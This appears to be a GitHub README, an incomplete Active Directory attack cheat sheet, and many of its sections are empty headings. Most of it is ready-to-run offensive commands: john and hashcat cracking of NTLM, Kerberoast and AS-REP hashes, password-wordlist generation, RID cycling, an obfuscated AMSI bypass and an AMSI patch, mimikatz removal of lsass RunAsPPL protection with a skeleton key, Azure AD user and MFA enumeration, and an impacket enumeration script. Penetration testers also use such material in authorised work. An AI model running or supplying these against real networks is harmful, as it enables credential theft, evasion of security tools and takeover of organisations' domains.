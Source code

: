 This AD attacks CheatSheet, made by RistBS is inspired by the [Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) repo.

it is the first version of this repo, many things will be added later, so stay tuned ! :D


<a href="https://ibb.co/z7DSpds"><img src="https://i.ibb.co/pR53cq2/attack-kill-chain-small.jpg" alt="attack-kill-chain-small" border="0" /></a>

# Active-directory-Cheat-sheet
## Summary

- [AD Exploitation Cheat Sheet by RistBS](#active-directory-exploitation-cheat-sheet)
  - [Summary](#summary)
  - [Tools](#tools)
  - [Powershell Components]()
    - [Powershell Tricks]()
    - [PSWA Abusing]() 
  - [Domain Enumeration]()
  - [Local Privilege Escalation]()
  - [Lateral Mouvement]()
    - [Bloodhound]()
    - [PowerView]()
  - [Hash Cracking](#hash-cracking)
  - [Credentials Dumping]()
    - [LSASS Dumping]()
    - [NTDS Dumping]()
    - [DPAPI Dumping]()
    - [LSA Dumping]()
    - [SAM Dumping]()
  - [Brutforce AD Password]()
    - [Custom Username and Password wordlist](custom-username-and-password-wordlist)
  - [RID Cycling]()
  - [Persistence]()
    - [SIDHistory Injection]()
    - [AdminSDHolder & SDProp]()
  - [ACLs and ACEs Abusing]()
    - [GenericAll]()
  - [Enhanced Security Bypass]()
    - [AntiMalware Scan Interface]()
    - [ConstrainLanguageMode]()
    - [Just Enough Administration]()
    - [ExecutionPolicy]()
    - [RunAsPPL for Credentials Dumping]()
  - [MS Exchange]()
    - [OWA Password Spraying]()
    - [GAL & OAB Exfiltration]()
    - [Exchange User Enumeration]()
    - [PrivExchange]()
    - [ProxyLogon]()
    - [CVE-2020-0688]()
  - [Forest Persistence]()
    - [DCShadow]()
  - [Cross Forest Attacks](#cross-forest-attacks)
    - [MSSQL Server](mssql-server)
      - [UNC Path Injection](unc-path-injection)
      - [SSRP/MC-SQLR Poisoning](ssrpmcsqlr-poisoning)
      - [Persistence]()
        - [DML, DDL & Logon Triggers]()
     - [Trust Tickets](#trust-tickets)
     - [Using KRBTGT Hash]()
  - [Azure Active Directory (AAD)]()
    - [User Enumeration]()
  - [Miscs](#miscs)
    - [Domain Level Attribute](#domain-level-attribute)
      - [MachineAccountQuota (MAQ) Exploitation](#machineaccountquota-maq-exploitation)
      - [Bad-Pwd-Count]()
    - [Abusing IPv6 in AD](#abusing-ipv6-in-ad)
      - [IOXIDResolver Interface Enumeration](#ioxidresolver-interface-enumeration)


## Tools

## Hash Cracking :

LM :
```bash
# using JTR :
john --format=lm hash.txt
# using hashcat :
hashcat -m 3000 -a 3 hash.txt
```

NT :

```bash
# using JTR :
john --format=nt hash.txt --wordlist=wordlist.txt
# using hashcat :
hashcat -m 1000 -a 3 hash.txt
```


NTLMv1 :

```bash
# using JTR :
john --format=netntlmv1 hash.txt
# using hashcat :
hashcat -m 5500 --force -a 0 hash.txt wordlist.txt
```

NTLMv2 :

```bash
# using JTR :
john --format=netntlmv2 hash.txt
# using hashcat :
hashcat -m 5600 --force -a 0 hash.txt wordlist.txt
```

Kerberoasting :

```bash
# using JTR :
john --format=krb5tgs spn.txt --wordlist=wordlist.txt 
# using hashcat :
hashcat -m 13100 -a 0 spn.txt wordlist.txt --force
```

ASREPRoasting :
```bash
hashcat -m 18200 -a 0 hash wordlist.txt --force
```

note : some Hash Type in hashcat depend of the **etype**

## Brutforce AD Password :

### Custom Username and Password wordlist :

create passwords using bash & hashcat with this format : <season><year>
```bash
for i in $(cat pwd_list); do echo $i, echo ${i}\!; echo ${i}2019; echo ${i}2020 ;done > pwds
haschat --force --stdout pwds -r /usr/share/hashcat/rules/base64.rule
haschat --force --stdout pwds -r /usr/share/hashcat/rules/base64.rule -r /usr/share/hashcat/rules/toogles1.r | sort u
haschat --force --stdout pwds -r /usr/share/hashcat/rules/base64.rule -r /usr/share/hashcat/rules/toogles1.r | sort u | awk 'length($0) > 7' > pwlist.txt
```

## RID Cycling :

<a href="https://imgbb.com/"><img src="https://i.ibb.co/zPQ6ntJ/rid.png" alt="rid" border="0"></a>
  
using [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) :
```bash
cme smb $target -u $username -p $password --rid-brute
```
using [lookupsid](https://github.com/SecureAuthCorp/impacket/blob/cd4fe47cfcb72d7d35237a99e3df95cedf96e94f/examples/lookupsid.py) :
```bash
lookupsid.py MEGACORP/$user:'$password'@$target 20000
```
the value "20000" in lookupsid is to indicate how many RID will be tested
  
## Enhanced Security Bypass:

### AntiMalware Scan Interface :

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
patching AMSI from Powershell6 :
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
  
### 
  
###
  
###

### RunAsPPL for Credentials Dumping :

[ ❓ ] : [RunAsPPL](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) is an **additional LSA protection** to prevent reading memory and code injection by **non-protected processes**.

bypass RunAsPPL with mimikatz :
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```


## MS Exhchange :

### Exchange User Enumeration :


## Forest Persistence :


## Cross Forest Attacks :

## Azure Active Directory :

### User Enumeration :

First, we connect to Azure Active Directory with **Connect-MsolService**.
```powershell
PS> Connect-MsolService -Credential $cred
```
this command allow enumeration with MFA (MultiFactor Authentification)
```powershell
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```

## Miscs :

### Domain Level Attribute :

#### MachineAccountQuota (MAQ) Exploitation :

use crackmapexec (CME) with maq module :
```sh
cme ldap $dc -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

### Abusing IPv6 in AD :

#### IOXIDResolver Interface Enumeration

it's a little script that enumerate addresses in NetworkAddr field with [**RPC_C_AUTHN_DCE_PUBLIC**](https://docs.microsoft.com/en-us/windows/win32/rpc/authentication-service-constants) level
```py
from impacket.dcerpc.v5 import transport
from impacket.dcerpc.v5.dcomrt import IObjectExporter

RPC_C_AUTHN_DCE_PUBLIC  = 2

stringBinding = r'ncacn_ip_tcp:%s' % "IP"
rpctransport = transport.DCERPCTransportFactory(stringBinding)
rpc = rpctransport.get_dce_rpc()
rpc.set_auth_level(RPC_C_AUTHN_DCE_PUBLIC)
rpc.connect()
print("[*] Try with RPC_C_AUTHN_DCE_PUBLIC...")
exporter = IObjectExporter(rpc)
binding = exporter.ServerAlive2()
for bind in binding:
    adr = bind['aNetworkAddr']
    print("Adresse:", adr)
```
